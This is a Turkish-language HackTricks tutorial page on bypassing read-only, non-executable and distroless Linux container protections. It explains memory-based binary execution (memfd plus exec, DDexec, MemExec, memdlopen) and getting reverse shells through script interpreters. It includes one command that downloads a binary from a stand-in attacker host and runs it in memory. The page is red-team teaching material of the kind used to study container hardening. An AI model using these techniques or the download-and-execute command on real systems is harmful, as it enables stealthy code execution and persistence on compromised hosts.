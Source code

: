 # FS korumalarını aşma: yalnızca okunabilir / çalıştırılamaz / Distroless

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı Lehçe yazılı ve sözlü gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videolar

Aşağıdaki videolarda bu sayfada bahsedilen teknikleri daha derinlemesine bulabilirsiniz:

* [**DEF CON 31 - Linux Bellek Manipülasyonunu Gizlilik ve Kaçış için Keşfetmek**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng ile Gizli Sızmalar & Bellek İçi dlopen() - HackTricks Takvimi 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## yalnızca okunabilir / çalıştırılamaz senaryo

Linux makinelerinin **yalnızca okunabilir (ro) dosya sistemi koruması** ile monte edilmesi giderek daha yaygın hale geliyor, özellikle konteynerlerde. Bunun nedeni, ro dosya sistemi ile bir konteyner çalıştırmanın **`readOnlyRootFilesystem: true`** ayarını `securitycontext` içinde ayarlamak kadar kolay olmasıdır:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Ancak, dosya sistemi ro olarak monte edilse bile, **`/dev/shm`** hala yazılabilir olacak, bu nedenle diske hiçbir şey yazamayacağımız yalan. Ancak, bu klasör **çalıştırılamaz koruma ile monte edilecektir**, bu nedenle burada bir ikili dosya indirirseniz **onu çalıştıramayacaksınız**.

{% hint style="warning" %}
Kırmızı takım perspektifinden, bu, sistemde zaten olmayan ikili dosyaları **indirmek ve çalıştırmak** için **zorlaştırıyor** (örneğin arka kapılar veya `kubectl` gibi sayıcılar).
{% endhint %}

## En Kolay Aşma: Scriptler

İkili dosyalardan bahsettiğimi unutmayın, eğer yorumlayıcı makine içinde mevcutsa, bir **shell script** veya **python** **script** gibi **herhangi bir scripti** çalıştırabilirsiniz.

Ancak, bu yalnızca ikili arka kapınızı veya çalıştırmanız gereken diğer ikili araçları çalıştırmak için yeterli değildir.

## Bellek Aşmaları

Bir ikili dosyayı çalıştırmak istiyorsanız ancak dosya sistemi buna izin vermiyorsa, bunu **bellekten çalıştırarak** yapmak en iyi yoldur, çünkü **korumalar burada geçerli değildir**.

### FD + exec syscall aşması

Makine içinde bazı güçlü script motorlarına sahipseniz, örneğin **Python**, **Perl** veya **Ruby**, ikili dosyayı belleğe indirmek, bir bellek dosya tanımlayıcısında (`create_memfd` syscall) saklamak, bu korumalardan etkilenmeyecek ve ardından **`exec` syscall** çağrısı yaparak **çalıştırılacak dosya olarak fd'yi belirtmek** mümkündür.

Bunun için [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) projesini kolayca kullanabilirsiniz. Bir ikili dosya geçirebilir ve belirtilen dilde **ikili dosya sıkıştırılmış ve b64 kodlanmış** bir script oluşturur, ardından **decode ve decompress** talimatları ile birlikte `create_memfd` syscall çağrısı yaparak oluşturulan bir **fd** içinde çalıştırmak için **exec** syscall çağrısı yapar.

{% hint style="warning" %}
Bu, PHP veya Node gibi diğer script dillerinde çalışmaz çünkü scriptten **ham syscall'leri çağırmanın** varsayılan bir yolu yoktur, bu nedenle ikili dosyayı saklamak için **bellek fd** oluşturmak için `create_memfd` çağrısı yapmak mümkün değildir.

Ayrıca, `/dev/shm` içinde bir dosya ile **normal bir fd** oluşturmak işe yaramaz, çünkü **çalıştırılamaz koruma** uygulanacağı için bunu çalıştırmanıza izin verilmeyecektir.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) tekniği, kendi sürecinizin belleğini **`/proc/self/mem`** üzerinden yazma ile **değiştirmenizi** sağlar.

Bu nedenle, sürecin yürüttüğü **assembly kodunu kontrol ederek**, bir **shellcode** yazabilir ve süreci **herhangi bir keyfi kodu çalıştıracak şekilde "mutasyona" uğratabilirsiniz**.

{% hint style="success" %}
**DDexec / EverythingExec**, kendi **shellcode** veya **herhangi bir ikili dosyayı** **bellekten** yükleyip **çalıştırmanıza** olanak tanır.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) DDexec'in doğal bir sonraki adımıdır. **Farklı bir ikili dosya çalıştırmak istediğinizde** DDexec'i yeniden başlatmanıza gerek yoktur, sadece memexec shellcode'u DDexec tekniği aracılığıyla çalıştırabilir ve ardından **yeni ikili dosyaları yüklemek ve çalıştırmak için bu demon ile iletişim kurabilirsiniz**.

**Memexec'i bir PHP ters shell'den ikili dosyaları çalıştırmak için nasıl kullanacağınızla ilgili bir örneği** [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) adresinde bulabilirsiniz.

### Memdlopen

DDexec ile benzer bir amaca sahip olan [**memdlopen**](https://github.com/arget13/memdlopen) tekniği, ikili dosyaları **hafızaya yüklemenin daha kolay bir yolunu** sağlar ve daha sonra bunları çalıştırmanıza olanak tanır. Hatta bağımlılıkları olan ikili dosyaları yüklemeye bile izin verebilir.

## Distroless Bypass

### Distroless nedir

Distroless konteynerler, belirli bir uygulama veya hizmeti çalıştırmak için gerekli olan **en az düzeyde bileşenleri** içerir, örneğin kütüphaneler ve çalışma zamanı bağımlılıkları, ancak paket yöneticisi, shell veya sistem yardımcı programları gibi daha büyük bileşenleri hariç tutar.

Distroless konteynerlerin amacı, **gereksiz bileşenleri ortadan kaldırarak konteynerlerin saldırı yüzeyini azaltmak** ve istismar edilebilecek zafiyet sayısını en aza indirmektir.

### Ters Shell

Bir distroless konteynerde **normal bir shell almak için `sh` veya `bash`** bile bulamayabilirsiniz. Ayrıca `ls`, `whoami`, `id` gibi ikili dosyaları da bulamayacaksınız... genellikle bir sistemde çalıştırdığınız her şey.

{% hint style="warning" %}
Bu nedenle, **ters shell** almanız veya sistemi **listelemeniz** mümkün **olmayacak**.
{% endhint %}

Ancak, eğer ele geçirilmiş konteyner örneğin bir flask web çalıştırıyorsa, o zaman python yüklüdür ve dolayısıyla bir **Python ters shell** alabilirsiniz. Eğer node çalıştırıyorsa, bir Node rev shell alabilirsiniz ve çoğu **betik dili** için aynı durum geçerlidir.

{% hint style="success" %}
Betik dilini kullanarak, dilin yeteneklerini kullanarak **sistemi listeleyebilirsiniz**.
{% endhint %}

Eğer **`read-only/no-exec`** korumaları yoksa, ters shell'inizi kullanarak **dosya sistemine ikili dosyalarınızı yazabilir** ve **çalıştırabilirsiniz**.

{% hint style="success" %}
Ancak, bu tür konteynerlerde bu korumalar genellikle mevcut olacaktır, ancak **önceki bellek yürütme tekniklerini kullanarak bunları aşabilirsiniz**.
{% endhint %}

**Bazı RCE zafiyetlerini istismar ederek betik dillerinden **ters shell'ler** almak ve hafızadan ikili dosyaları çalıştırmak için **örnekler** bulabilirsiniz** [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hack kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı lehçe yazılı ve sözlü gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hackleme ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

